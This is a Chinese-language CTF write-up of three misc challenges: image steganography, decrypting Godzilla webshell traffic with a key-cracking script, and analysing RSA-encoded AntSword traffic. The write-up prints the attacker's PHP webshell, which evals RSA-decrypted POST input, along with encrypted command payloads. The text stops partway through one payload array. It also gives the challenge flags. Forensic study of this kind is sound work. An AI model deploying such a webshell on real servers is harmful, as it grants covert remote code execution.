# 2024 楚慧杯网络与数据安全实践能力竞赛 Misc Writeup

**这比赛本身没啥好说的，竟然出现了这么多的原题，非常的难评只能说**

**但是如果就涉及到的题目本身而言，还是可以稍微记录一下的**
<!--more-->

> 本文中涉及的具体题目附件可以进我的交流群获取，进群详见 [About](https://goodlunatic.github.io/about/)

## 题目名称 不良劫

附件给了一张PNG图片，但是010打开发现是JPG的文件头，因此我们需要改后缀为.jpg



然后再010打开，发现文件末尾藏了一张PNG图片



我们手动提取出来可以得到下图


发现是一张被污染的二维码，我们直接尝试提取红色通道中的图像，然后用PPT补上定位块


扫码得到前半段的flag：`DASCTF{014c6e74-0c4a-48fa`

然后我们再回头看那张jpg图片，经过尝试发现是单图盲水印





因此得到后半段flag：`-8b33-ced06f847e39}`

综上，最后的flag为：`DASCTF{014c6e74-0c4a-48fa-8b33-ced06f847e39}`

## 题目名称 gza_Cracker

题目附件给了一个pcap流量包，打开后发现是哥斯拉流量



然后在流11中发现攻击者传了一个类似字典的数据



因此猜测题目需要我们用这个字典去爆破哥斯拉的加密密钥，因此我们写个脚本爆破一下密钥并解密流量即可

```python
import re
import io
import gzip
import json
import base64
import hashlib
import subprocess
import urllib.parse


def url_decode(encoded_str):
    return urllib.parse.unquote(encoded_str)

def xor_decode(data: bytes, key: bytes) -> bytes:
    result = bytearray()
    for i in range(len(data)):
        c = key[(i + 1) & 15]
        result.append(data[i] ^ c)
    return bytes(result)

def gunzip_bytes(compressed_data: bytes) -> bytes:
    with gzip.GzipFile(fileobj=io.BytesIO(compressed_data)) as f:
        return f.read()

def decrypt_traffic(filename,key):
    http_data = []
    command = [
        "tshark",  # tshark的路径，如果在环境变量里这里就不用改
        '-r', filename,  # 读取指定的 pcapng 文件
        '-Y', 'http',  # 过滤出 HTTP 数据包
        '-T', 'json',  # 输出为 JSON 格式
        '-e', 'http.file_data',  # 请求中的文件数据（POST 请求的内容）
        '-e', 'http.response.phrase',  # 响应短语
        '-e', 'http.content_type'  # 响应内容类型
    ]
    result = subprocess.run(
        command, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    json_output = json.loads(result.stdout)
    # print(json.dumps(json_output, indent=4))  # 这个输出是用来调试的，可以移除

    # 遍历 JSON 数据并提取字段
    for packet in json_output:
        layers = packet.get('_source', {}).get('layers', {})
        request_method = layers.get('http.request.method', ['None'])[0]
        response_code = layers.get('http.response.code', ['None'])[0]
        file_data = layers.get('http.file_data', ['None'])[0]
        try:
            http_data.append(url_decode(bytes.fromhex(file_data).decode('utf-8')))
        except:
            pass
    for item in http_data:
        # print(item)
        if "Antsword=" in item:
            try:
                enc = re.findall(r"Antsword=(.*)",item)[0]
                # print(enc)
                dec = xor_decode(base64.b64decode(enc),key.encode('utf-8'))
                dec = gunzip_bytes(dec).decode('utf-8',errors='ignore')
                print(f"[+] 请求: {dec}")
            except:
                pass
        if "e71f50e9773b23f9" in item:
            try:
                enc = re.findall(r"e71f50e9773b23f9(.*)792dea3a7ae385ca",item)[0]
                dec = xor_decode(base64.b64decode(enc),key.encode('utf-8'))
                dec = gunzip_bytes(dec).decode('utf-8',errors='ignore')
                print(f"[+] 响应: {dec}")
            except:
                pass

def md5_encode(text):
    return hashlib.md5(text.encode('utf-8')).hexdigest()

def crack_key(key_list,target_hash):
    pwd = "Antsword" # 哥斯拉的连接密码
    for key in key_list:
        tmp = md5_encode(key) # 明文密钥的MD5
        tmp_hash = md5_encode(pwd+tmp[:16]) # 响应中返回的hash
        if tmp_hash == target_hash:
            print(f"[+] 密钥爆破成功: {key}")
            print(f"[+] 用于解密哥斯拉流量的密钥为 {tmp[:16]}")
    return key

if __name__ == '__main__':
    # 响应中返回的hash
    # target_hash = "e71f50e9773b23f9792dea3a7ae385ca"
    # with open("dic.txt",'r') as f:
        # key_list = f.read().split()
    # crack_key(key_list, target_hash)
    # [+] 密钥爆破成功: Antsw0rd
    # [+] 用于解密哥斯拉流量的密钥为 a18551e65c48f51e
    decrypt_traffic('Crack_me.pcap','a18551e65c48f51e')
```



然后base64解码即可得到最后的flag：`DASCTF{M0Y_W1sh_Y0u_LogF1le_Usg32WEM}`



当然也可以用CTF-NetA一把梭，导入一下题目给我们的字典即可





## 题目名称 特殊流量2

过滤一下200的数据包，发现其中传了一个zip



```python
<?php
$cmd = @$_POST['ant'];
$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCfhiyoPdM6svJZ+QlYywklwVcx
PkExXQDSdke4BVYMX8Hfohbssy4G7Cc3HwLvzZVDaeyTDaw+l8qILYezVtxmUePQ
5qKi7yN6zGVMUpQsV6kFs0GQVkrJWWcNh7nF6uJxuV+re4j+t2tKF3NhnyOtbd1J
RAcfJSQCvaw6O8uq3wIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
    $cmd .= $de;
  }
}
foreach($_POST as $k => $v){
    if (openssl_public_decrypt(base64_decode($v), $de, $pk)) {
       $_POST[$k]=$de;
  }
}
eval($cmd);
```

然后翻看后续的流量包，发现主要是蚁剑流量，结合以上代码可知应该是用了RSA编码器



可以使用CTF-NetA导入公钥后一把梭







发现这里执行了一条命令，把secret中的i和7全都替换成x后的内容告诉我们了

同时它也给了我们修改前secret的MD5值



然后发现攻击者往flag.txt中写入了一段AES加密的密文



因此结合以上内容，猜测出题人需要我们还原密钥并解AES

我们可以先写个脚本列出密钥的所有可能情况

```python
from itertools import product

# 替换后的字符串
obfuscated = "xx34d619x1brxgd9mgd4xzxwxytv669w"

# 找出所有 x 的位置
x_positions = [i for i, c in enumerate(obfuscated) if c == 'x']
print(f"Found {len(x_positions)} x's.")

# 所有可能的字符替代：'i'、'7'、'x'
replacements = list(product('i7x', repeat=len(x_positions)))
print(f"Generating {len(replacements)} combinations...")

# 生成所有可能的原始字符串，并保存到 dic.txt
with open("dic.txt", "w") as f:
    for repl in replacements:
        chars = list(obfuscated)
        for pos, val in zip(x_positions, repl):
            chars[pos] = val
        f.write("".join(chars) + "\n")

print("All possible combinations saved to dic.txt.")
```

然后可以直接用PuzzleSolver爆破AES，得到密钥：`i734d619i1brigd9mgd4xz7w7ytv669w`

同时得到解密后的明文如下：

> Delta Alpha Sierra Charlie Tango Foxtrot Three Foxtrot Delta Three Four Bravo Five Nine Dash Four Echo Nine Delta Dash Four Three Nine Zero Dash Nine Two Seven Bravo Dash One Three Four Six Delta Five Three Six Four Delta Nine Nine

然后我们把除了数字外的英文单词首字母提取出来，然后加上数字即可得到最后的flag

`DASCTF{3fd34b59-4e9d-4390-927b-1346d5364d99}`



> 当然，这里除了用工具直接爆破以外，也可以写个脚本去爆破MD5，但是要注意末尾换行符的问题

这道题解完以后，自己也是尝试了写个脚本去解密之前那个RSA加密后的蚁剑流量

但是不知为啥里面有几个数据没办法正常解密出来，待完善。。

```python
import re
import io
import gzip
import json
import base64
import hashlib
import subprocess
import urllib.parse

def url_decode(encoded_str):
    return urllib.parse.unquote(encoded_str)

def extract_data(filename):
    http_data = []
    res = []
    command = [
        "tshark",  # tshark的路径，如果在环境变量里这里就不用改
        '-r', filename,  # 读取指定的 pcapng 文件
        '-Y', 'http',  # 过滤出 HTTP 数据包
        '-T', 'json',  # 输出为 JSON 格式
        '-e', 'http.file_data',  # 请求中的文件数据（POST 请求的内容）
    ]
    result = subprocess.run(
        command, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    json_output = json.loads(result.stdout)
    for packet in json_output:
        layers = packet.get('_source', {}).get('layers', {})
        file_data = layers.get('http.file_data', ['None'])[0]
        try:
            http_data.append(url_decode(bytes.fromhex(file_data).decode('utf-8')))
        except:
            pass
    for item in http_data:
        try:
            # res.append(re.findall(r'u51aea36fa19a7=(.*?)&',item)[0])
            res.append(re.findall(r'y21db7ea65d36d=(.*)',item)[0])
        except:
            pass
    # print(len(res))
    print(res)
        
    
if __name__ == '__main__':
    extract_data("http.pcapng")
```

```php
<?php

// 常规蚁剑的马
$cmd = "h2eawHhLRnx7KWCqV3rBIjmJ5/GCJPm3cZbETPlEd0o5JjAKC2tSA822i3h9y0LuBBvRG+sKCJYHn88W9zN+yPVCv2gRqgyVE/QJuq/JnCODkiyAezjloJazIWcsiJ7kE7GV7YtbRn09GOPguW5GFaT7Li84M9yazmwQFRJpQ5M=|Beetr+oJLoHbUHuweoAVksPiaO3PcFH6ilEdmcarMjAoxWXN9KsZZkTUdtuJYUdKLy4BzjBg/rAr9PxnyYu7BZcK5ntv/gmZG0PgPoQOgIh8a9TbMlTZVsIA7Sz0fHj9VRGg6BTyqTZXt3uUUsLH9mVXy4nLVW52wi08VBFzODY=|HmeSOzgXh79ziUTkk85sSv52+Nrdd+tuXWjwjdho0vzYwR2YGIz20UTcDDewNU7LlBQyUml3WGngw6yOXcOVUcIKmHF2kW986YUoY9mpjgjJe3YQdu6JMUZ0N0tLqCsBSd99rsg+zp+78Gm5kfLKHP4XhbNwb8dEXCXgK6tPvr0=|NaOV1tJpl2MXnWfZYjfG1+KvGBW+FUwPQk3JN9BrXE8w8KtD8tY+GfZjLRSHPUjVX5epljKh7nJxokxA7gEWagEh39x4/Glyj9TQqauUwF2Bo8HHfzwrvIc5FHSUZdaQF3xnTiMPrtfQ6rRx4cgAvUQBk6upiNDmXnozVv0vOFs=|MFMsXUEetMcbIc6IGB1vl+GyPKRdvDlCn95CvaCdw4G5rb0it4+2gDn0DcQ14pDZR69qONB16UMcu/Gz5jw9NHWqCxUiltKjvFCxEthYLM4tnppiEsPAG0T3NsOLLK3xHNrPIW09WlZ9ZIfhPNm1YYADWYPHlayQdzPZ12sKr7g=|f7VRsuQvqz2tbzk/9hA3c1t0ESWpManDrKqVxDvgwunEoOo20Wpl1mxjLWdAyjo7SQn8eL2cVQSiMONWUODvc4G2uYJm6c9/+gdQxn5mYxA4jcWZocMBOMJ+AHUFvtI1ym8UCqVTsB+ydS9qskbuMg68cy5+ThvcfanQO1SDlT8=|SEnL5fHjjuAVHAuculmhZX0s6SixAODECGeRmhWoHFfQsRT/hgBznHpccS7Q2QOJ72HtRe81d39G/Mi0m/CHHPsR0RA+IP2GyG39G1RzdaT+AAZPJPUBReOe1Eu2yHzmZLNop+9lmPQqZ8nSppAcwgvGF5vBslqWnBwIVaG/uZI=|iavTDinsgbtj27o8vLrzXKYGWPhp0Fg3wdGjM/F8WK+T3vw6vU8kwZmLzygy1bwgTCaLYh2wtQWQV6FEHbRPZXbWn4zv5KS9ztBUHC9sFXN73yHOSINCVyJ8fcX3oausUGVY0uaQ+qG2u8Npz5nnrvnD4gp/HlWaf4BrfAIuy3k=|bYRlYSDnI1UCobtXIKO+kDylK/Gi8npU9PIT/78PbZ8nKKLUOjuknNrPJVEfFcPnQVg4tWJtV6hxTEiJA1WuYjChv1aO2VzN7kV8d9EI2VHz0i+4MpVWdJ4fzy7A4R2J4lbxLIfxIsDbDCJnTIAVGVzrx2X/E7cfxMu+02PUXAE=|A1QoYQpEtZf6hDzXeLKA40eZBLkWnUyL6lblwpnnmBMrd471ZbcdXdB8ivKala29FSItqyp/7S7nFmO01nKbgzmNSo/VhPRqyvKj0ct+eoeOmIYT4oVKMOz99hhdCPqwNnIr9UvJxlCynmKBWspu77QuQEjq+o4blUewBzHxTlk=|bBT8U3o9EbKnllTikz73DxoaGkDnprQqI06Ia677tWgtcB5RK8krbYX7TzSbsHQCvSkvfILxvlSSgdapMOidJBQtVTM3y4UiF8fibXjPRRi5PIYm/mkWzkW/Q1Z6mQ1cP44g24lKOotMH8gLibhe9DVU8jl3BpWCgFT/nq0v5kk=|nXZj20SL/5bPZDd82hH1uULXoZAsModdwtlYZgMyV4Y6GqTkuLAsJTuBEa5TA3RWhHH/pH/vR6pnGYtHyNQSc0mekqu4F4XB8/9OmpZrJCXUzv91pqTxNIELlX42sLxsPHu7OnIt2P98o3UCjlLNPuJ6guBp9tONy0Pex2j/LcM=|Sp/QguTJA1qCrHk7IUNk1Hh9pOqe/QMjt1HZv3FTRbTwYyR0d5IKWiiHciaPQGvJ2OIWMn5SHYAz42w1Gt5iDY6zp3vEgOb9Cims2ngBVY1JVuGH9mi3XKq4dLQhMVMiKhKxShuUU/M/E0qPDLeL0U6vkCH9zXyWKpZV151H92E=|PqtAe52HlzKOb8YmtmDn4UhCLJrmaxjRS253NQQ39x0G4XDPvj59jGRFaohiC1f7vIKBgkSw5UqTekbckWUAwWm4kjPQMuaQc22zAwq9YobvEZIptgKodctfAz8t8QOpJq9g7j3d2xrpt3Nm1vuxQWTk2yzvpKBab3FlL2XRxTE=|fGlqkiNMLzvrtLpBxJhbxZkJn8kQRn/fB/vIcx9AL8JzKzTb2+prArqT4hbPIk1m8HaQucLWFl3XwDclDnDcN2pM5P6zC7OSX/8diNmYISEprNn+HoU4KdJSNF3t7VyyOia2+1QwMrNvXZtm3Eu9chjaajLe/cFsltmPdCSh5cg=|VRG6JvDeq7IS262EPLpgPARWVUSIUheClb/7dxD4WkuTdfY1yzDVy4Oo6rBzylYZ8Z5F9BCmJ0IP6Joc6cw7xgnBrcyxnC2AOGy4LreJjXuOJs2mAo73ZMvMfQ8WH5DoFLqDO3SGmz9GEKVNlM3Y2MygcvBXvF5JYDURwR18eas=|U4xyVXjBSylhP9bFiDOHiL556yRoTasQgyp8WPfNGxFb3YxqSPUiIeMDGptHTK+0/9FuyIHqDKefi//jGs7RBji1Tg7B0aZTDZKjctclLTGVZSqsgcNYlba6vOkN7yTI7TueQ297rrsuQTBxQTUn5HYxTcUffu056FJa94M/oZ8=|THCt3czpIE9qw6/ArCLrRPiBc20CWrblwuaaNo0E3fz9DN7AIUS8Cd5IrXxbZgG5PjHBrUAO55I/bcGgJGAt48fT8U8tQRjl5vzhdD9FFzooiklBW52fY4OH97m8jfwNzXsqgfdY/SYi5Lo3GKI1de/x/yvQagB5Ybl0d76d93U=|QDeXdRwsT2bIYQK4ekfKAIm38Yig8C9JvTUlGHSaM5yBuisPXb1UEiAZrDsUEvxxT4PCuvFOSxqYVke1RAc8dqbPoPrfzTWKmGKPlEtplfByl0uTEBzZmdCMprSgz9wwvsb38d7HIeqEiq/mAoJq3hZPLlCsd7L3v+lkg5VJXPk=|B+8CfN1XcQteSc463LxKmpNNxN6F18P0egHIwZyMyHhzRnpLX1pFiidkvU+0o3FVLb2IKqVyEwqfUHyTdxqc0poDpNyoJTlXFAaCDZ95RyDCV/h8NvHdBzZcc9IrK2YtsIxxZj3ZqchzGRmKWfbQXsQYk3QctIsmG5shQ9d6pTU=|RJo/Kc9qplyP3cVRP5X8tW27IZsn3+6Chtw4xMOCt9qt58T+e919ULD+EvHaBSxvtcWfd6gRokMRvBZIBRsghO6AcsDja0ngelhJH4Wg1no8DjgCfpgK9mpEJKvuGp56shWFu47MCNjZNtbUdnBCpeIh+kPiVhN7WxL+pG4Futc=|Q+tVYvjbBNn0Rjglwa+5R7QAzOE/XMqi0iLrnQrPcJsq0kRfx/FXCMAmtEhnWIXWOpBnIoVxCt8OplUo+7nQrBJDR+VJsvFiCLDgyythNFsLeQiykqzgy0Q74SWUJXM4ji7ZcPkiu/CN0s5D1sd8C1GirqA5sIcO6aBgHG45U0k=|Td/+JRmOQuiupcXahTQso+IpvlzCDinys4KlStXQuEoSilj5LcHplrQLMVrdX0+wfWMgx1UqJdtW8+q+oMaFkSLr6oqwVYNOOPUe9wbvGXfuVdx6+BmWAalM66FupJ0glqjM+qbw2CuSwNy3W1vI9gwvD1Bdxd5k0Zet5GDy3wI=|WBTBqKxmyW18sIyFFpif0V3XAWC79MysexheF02zHYoDpFQ2lEjfFmWad532nywbE1FGOvY6SJrNXeTV6+9+Zri3ph5U8qwx0PFS8UXrVbAsHqaTx4xbYrAnGMFL8q9ZHttI5VZP2zUzZjobxZcl4RgeinaoK5sk3u3ru1by/q0=|mwvK/wujsiQIbYI0zjc8x3Bqjp+muCrVLSlFknhOqK5x/+dIhFRVIVlQ4ETEYiwfgzXf1m+fO8JNkxJfQwfTBQ85mwZASTNpO1Xr8x4f66cATJIEcDX1ltK/9FBw1EhOnef8/j1rdP/noawgBDd5ZYns/A2MnA1vfu/dxll5u4s=|HZ4EiIj05rT3QiggJVMXkk0BJb6yADK9XYOvUX8GjRn20g7B+f9IZAw8PQ+A6JoCwZBZRD42eqAAQEv5Yt2UJi2x8wy3vykxgCEXm169eueBCMwaIKDUgAIw4o0G9rGWWB/WG03aAg4C2Z9vRw1Yr6qVCq4xAdWbHUNFzuARhno=|V2bIlwe1JEU7LgqJuzxHAm2phIKYK6ypzYMuconP43W+eOV0eOi4jQfMpcuiF9LeTbvZeDeAbm683aTi0X2Qq2kZhNzLd3WNBnT7xyBIR9kaDSWofZ6HIFcrW+IG6dMrJYCxSXLtDZqHNdHAcUY8E/l9lfASjaUaaU8bWrbNmQI=|IJDh9f7uQV2Mvu1Uo+68ipx7S9jA5lf4BMfCImJA+vcUt5oQYwiUdxB72M/fx844PzmobSc0A8xdp/HiMXnOJGn5DowHTABsxME8soJiElC7M5vIRihftrgpCbzAK0VhZTk7e3XMTc6axYURK9/eiYDKVJ5udgTSDwimGiwSCYk=|f9r1tXu4LmTNe56o9268uyxhzwuyqCXH4xhcwb3vi4ugf86czIe1EtrssNNjbO+2uzYpO7XeZf72RpR7uQJ6Y5QV0zdiBTU4YiIp+dGFW6cJSLVPGiEOvNY7JnodOG5/g5u932zMf7Euew/wGAQ2YKK9O/UgsyYIyHn5j0m7WrI=|RqgLwn8A7kjWT5sZTifN+YFXS/YB7N0VMBAt+cJE1Uokut0q4LXrEKmz4Sl9a1TyWbRhYCiH5DjMjOJsboWnCrUw1WId2NgxtJH8d4XGnYoHLj8Mq/vzt6xwoG0mg0y9byhGTqMEZmDVidpsjC6spVEU4+/GvYQXdBF7v6jB7lI=|TXW7LwACtczas6FJAOB05GqDIGNP8iDoceCeP0esO5VsXLlehxFJtGJ16fZSUBXvviR606X9FAZZAiXlf3U3HknQQ8RUq/fwRzjDu1W+gMGFSppdO6SS57qDET4f25y4dpyFl1nOAYvfIsv5Oo/gQMvjWgXtj/46x5fgc3dMa2M=|bGiI0Mqq0oz8QnjKTn64VBzunMSZq81hzJozM1ef0zDF532NFj67mkglIYOtgQgrh7mqLK6uAau/p513t/C4IMuW/13gfqLa/6Jh1OGXipq658vS6XdEzsNWvRvCba0tUck9mITZ249Ae0od2cs9/WWJT0iHzwj+qWW+UwpFnc8=|etD4pZkOMmz8YUMJV/3dTdMeVD1+jay5bmG4K+BRWQfc3lEmIkRoevVvGXlx/xR7yuOWi6BqDGRfukiL/jk9ZIq4Bvae4+xe7RVIV128cYHTyc5Cv4J51xvmLRRRjrxz//xkmbT/DirWeH7ZTqPBB1ZED29rcaP4vVhzrhyJgDc=|gxfE/qQXrUKHECoR5y2qC2lOoYykAVHIRNIliW7nHg66S6CGusyA31vRU6hXWOCwIq/wGtWO3+fC8imf7zwC2S961RBKm/o7478rpQ/n0lC8zWH5qVNfM3anzHtGPY+q+RgrsN+LsbROx5hH0U+xxWqC+/di2+o3ah4FTIcd0To=|Me7Ksjjy7u9YMESGH3R59NHnV4YkA8v5YMkNqcKOxa4BESV+enfpR/Z+qRVQ6nkNwppxYpmpiEVk0eAlHeZ2a/AGkWfbYUTjDQ6IPBs+sqGUcxoRB4dtPWbSKpBwMnr8lZU+wYmW2w7x1xwiQZD3s+kthZrSI1jcLuyR3Y6GK5c=|ERFOVsAH4EDxUTaFsfVoWUR/cuhu74J5kUb15M6nPVol2rRBD4L5+Q37mAmJoEwFoaPGmSa9wd8e/7PgL9apyqOivb05zn4Rtkiba67a+cIjUqCzNlh+zkKzkl+CZNPsXAP1rdHUyvRiCyqjlOjtzLNn0jOyEajAwLmE2CBJGAc=|gFSDV/0I2ixHtRdZWJvFGYvgNICrgnslhs6NAKSnst8FOQBWPwRV93cVjavig2AutuQ6f1ly3ugdYlqQcG3ZkQqVxw4kdyKT5dYD38UDD5pU+u9naY8Q6DzZW+d3FwJcwXd5o4QCIJz64q+ubhz0P/yiVAmmiXPTOjX1+WDLFWk=|IgEw3yChdxQfBdMi+XqRnTJFHL1W49SVD4vyaNqM/g7WERyIlvD0fEAc/+AmKm/mAij8rVFUuC4dR043Wlp90a40qogV97saleDB5BOs9UxWxq3GOqaBOvecKpG7ZNT04j2N4w+Tit9fgFU2r5YP1y1Mr3cSyGBlk/PxABofixI=|DvFVMgJbFZIA3abwm+zkRbsiuKdql8fvDWCpnZ5Ks4e5JeGeilOiTFhHmNQvG62DN1pxZGKp8uiExsRxfIi7U3w5rBH08YAbGyNiGyKTtsTeO4h6IWw5E/Ca0orhBTy1gbUsIG4r7O36iXWbTmP1Vweg9lyVxX+25699vIh01UE=|KqJNbSFTKOR5fAXuvCZfJ1B1zCwwrVsBhaH0vsixgoCGO/lIYctWhkvbQikotvhK/zbbCLK99j5KvU1u4iCMHOW50UE8tAME7ZuYqtcB077DiuVHo8rRMdUjvSaoDodTanr1TiF414Rv1R3evWxNWZvseHHSGdLMvAAXrSZJIEk=";

$_POST["l6eca85c56d82c"] = ['Zn4Zj/XIusIg6hgVKeAyHg5YkY0aHpA+sClHd8bYyJwJQWeTKg9O0rWjx4uyNAp3lDxcubak981Mj4z7pGLLMcARQVssILHX6HGKnJoWkB6cNCbfbwI8YqUC1NgEsj5iQtfdIDRCmaczzw6/m+tlohMFoQSrN8SASUQ5FrURdq8=', 'ScFasYUe1rnzXnGAXtEEQ1HY5nhBfdQ2DCBkSMc0/UvE1Pw6Gyhlbe9B8m9Sq7H1QXMeFEQw7C/MHVIUFfKwFCEaIeScKV0uwDZAQ6aPPaVlx00zWnp1RLvv4fvh9qMt32NEVK6pH4l+tTSUtGTbjKNM3AHJIPigWgJdxiyIn+8=', 'OGIDiLqt55rKrqDCWBal9irWhxdFoTcR/yBdMpuHY6KwQqg40zQb6wLJ7KvMZSWJfI4EcMIchta0oLIaxUy0Mtn6MvUVIo1Kg2OoFyAS2DPlt/2vwN8lSMDmfWSdyv+oAGyE2H068KoB8kX35Wn+LEF2IEMDaOzx2azojkXycXU=', 'AQMG1moPhYMGh04jYOhrxI389fD7Er+8lkP+xa4yLZyQk6Zp2DgI/2Mzt9sDRvVRrDm80dzx16o2zNkRiKRAJrK1RQuMl4wuFph5meAoCt+aDe6ct4iX3DHkEveAVikjvIhYg4hQMMwYFZ7t+uP5wtdLs8f2mBCaDqhOCq7OIlY=', 'Mriexd4PpivbbGf3p4ALnXtkLufDDcDjQL/y/XLJcwTEsebSlUrSvCR59KZOD+PqVxYY5gxfYPGzoIqCrIsEsMye7OxIAFFn2489rfHzRai3xKJKG5Bj19HnMgX1BPyrypDbKkleEDlkYCYHgE9nH/4CFPXQr362Kxp5TeiMhd4=', 'Js7EXmASNJv7vhWlQOjg2c1fypN/R+U/o8xXOY8/SVCmUuz7QRqcc52Qxof3SFD2XxzSRTqnHZdIE27tp5jV2UGHi5Z2jc+gj8UmqTE8VuP6X6FOhUqGC96prfxmbSCMkA/e8mtJsJXiGhjHkRvULnBoTzRlf7/PQaGmnmoKEzs=', 'D3AolWpp3tEoJI+zfdYBfonRED1vlE5qh6sJug+wCk9r7PQex1dsFHzMb57+ogMFaXk3Gz7fBnr06PWca6xYzdPHHdVCNO2p1P60sFRS7mvLRs+CBotiEGd9U4ChDQ5yLPO96sSWOo5iVU3rZPeOdNUZW3yyaNZ8r/IynfPMsZQ=', 'mTW7v54Iy44qnOyJeXu/oCFVaKOBj06eLi5zxPpe073AO1jn5nwMBR0UK7Xa/bG5NlBfplS3Y3Ll1ya2mvOe+4LIRKgMOXRGejdMb2S93IbCXPqp7XVNrqcrXr95SkJeeEk+zktgD16/WpixUCgs0GFYmGAKSeGaYmdaQ+sDKmk=', 'SUwTv5sLFChoUtykcBW1sqi/4Len4YEYM+3VpNR1xbfHHSThR2jjK0TeXPBk9vLVzuWPIpg7ZRAQgoi+OoOeDjoEzmYMw0nuaZvjw6GKZrH+UQlFBZuVZ248ZdvqH1zQCX3tTWM7NxGnPKNqD7JEjS+ixsCGk5Ea7gb88yI1Fz0=', 'FNwwTLPWXutIJwqnDwgluIv/Ies/71C8H+UUuG9KuULzXiZYNlbOSfAZu0hT+YD6B2cVN3nA4l5B3zDYU13UiQh9LewNC8KUnBlOPqhZPC57iiXJBETg+FDo9UZswN7JkM6FaZp1osmCtBtP+uPbs9op/nACWTqRDlc3AzmzhC0=', 'g/cOJmEmrg1046z5unyLSfag901Dwbiog/06TTgBzbZCxBYzqNMiLpj3q9WzzrzfZpv8Y1sPSwAhbW+6ux7+bH6d+QbgfJK5I5Fxsd/9yweOa04JhWieCRizU8uMm3oWt2ZrvdThgyO0gymm7UTIqeMz8jEnUDh3E7rGI3PcLyI=', 'DCAfid4xuUbZvB52YRqDOJ1eZ9oxZOWjUgT5MgDZ8ATlt1kfGrRF8xfu99takkdl0pS52cxzUylyotJFDD2XZ+yDJIM3T9eojj0/o1J1umNxa8oW/rGtzp+dMnGiofpjaaHxxfjwDztbglYPvC4MtsxMxm5EIVqvuWAXDbniCt8=', 'PtgveYLNMoPTJbdMLIMUfcKG5xHEuH+0woXkCO8vF25EEH9Kt/TT2M6sIEYvhKJX+geysxkOFMjDEucKQeEPV3E2Xtkzu57QR4yLDnzq07qmYYqBsAXZD9Thon16axBvQdwJ2R21BKEIvfucBKE7lR4DL5idxXCQMZseRh/dFNE=', 'R4Te1rFFngYZVODMcwZ8foyk+U0A2Rs6AhwXKI4duiECWGcZhbDKyHkOstfggZceBlMdLDO7zw1C5HqMFWkvDOqawLZL8kl+XGnGoRKZaqZut27l3fB20eW+X/2jk3tgS5XDMkmiTjWfJ0Fns+bpoDZULXO3USMSnrsPy/zeosM=', 'QhGblZx2qZpBWU1WNGSb4In1lIEydg4qOKTIDgdSx3jS4YOfV58sgOHcaOzoZK9vEqsKbqjJl+MGShmilwuwZFkolnb73hKAR74RXodHEUonGJcZMpWxanvhe8AqjBUmt2AtIQ/l9fu39l79djKnbw2v5OoBMMSHRomf9iCIgJg=', 'RsBFWXfFGbe6QNPs+Bjb2vgWKS1cQ1hCQdnjbfMWXRIlln/z9LNz8TWw1OTY0le8pSKil15yyWVHWu8Z6AgwgGcw/fhHy2JN4m/LsnAtWUR4ae/CLeZxCGs2PMJTI72qAUkhQY22g/4P8pKZN9UuzS9J7o1AmTuBGIULYNOpOrA='];

$_POST["u51aea36fa19a7"] = ['QsXJKJ+HbslLx5m2I3NOeM4bW62m7LWOrDehaEf6XfBjIvU03I5qrX3DPPiIXlovgL85iuAf5Z8vauDIY+tCrNQxaefDg0UuhEVubSB/smQWDfFgbRfKRyF93GFCT2jEkhTO0rH0ohzTCYmMcQh+2Sndhf717fUCzbyI8xmHk2eHZQGs5ICJTAMDGkfS9czxKPO10FO0iDxzJYBWDGan/oMftyDmbC2Y7NSeHJ0G6Lj+RnUg5+NlxQCm3HT8WXs87rNvzb5d+H2YHEP594swVsQKstPKiXSPiPQiIfZRXhpXypNnYxd8YmkLngfDMVhttCWT+NgnVGkHQZ6/sB13TQ==', 'lkg5ELvolihY/qU7jRsjXoFqK2eh/6Q/bM/s0L7cAZ9Nz7/99SKe7ez1uCQIaWdEtYrPYaWM0F5JqX/g9S0d8AZlUgg2LmwDJHwR8NLA5LMwohwsaYuIVJ/ojS0c8K1b+qbnrIPO5bzy3VnVaM4kHdmDrEF5FvSbzEx2PmxJSuI=', 'njtBworWRl9RQtpVKnNbefSnJdWWSmTPMnSSVBHSCgRTglKsCKF+jeqlhLy1O7Yda/H5hMF6OGMjn+x+bAHVYViWOwPBWRdNZbp8KteJvPfx+8K+X3BpmjmpsrgvS8f9PipgoCaQ5uGCt2MFTHidQ/Dl22Fv+EY54IZpkzv6qMqHZQGs5ICJTAMDGkfS9czxKPO10FO0iDxzJYBWDGan/oMftyDmbC2Y7NSeHJ0G6Lj+RnUg5+NlxQCm3HT8WXs87rNvzb5d+H2YHEP594swVsQKstPKiXSPiPQiIfZRXhpXypNnYxd8YmkLngfDMVhttCWT+NgnVGkHQZ6/sB13TQ==', 'LhpEKqCGqIVO3UeoJMKOAld0Je185OIx3yxB277muqA2UIURtPGeskBh7ks2O4Yka1XK3kI/DBs8tNAbRXmDgDov7VhtdH1blRdd5qEnmzzyOQNGEnuDkTPxvmwTWmHGcX4HV4jJ5YkF/6l7t9N6WmV7jjVcnw8iJFhfPlrPEmQ=', 'bAV20O86Mjx9jAR+1oTaFUokJgb8WwgG0kcuFomp3Z3oB2PhzdBmPnqgAsczLbw0MgjlomXcswh1ppWX+UTZu1HEriKJ485h7uUSwralQ7AIpuHz0Te7EBk93rB6K9e5z2cVtr9AFS39iGBnGZz6POEfeUPBxr+KPmffIty3+pQ=', 'OBlv9+3FmnsXIHz0e0SO5FSUyb5Vzk/lsszyuqgxI3LnyNyQJBLeUYJ6Z/Y+mgPkPVTS3XXbl7dw9r96ise1P0oxQ1OpF3CduihESGhv8hsjsGtyodDVoOXX/IqafSG6A5+RrrSE2QXSu1jR82eaKqz8tirqeDGjxvxQcP8hCHY=', 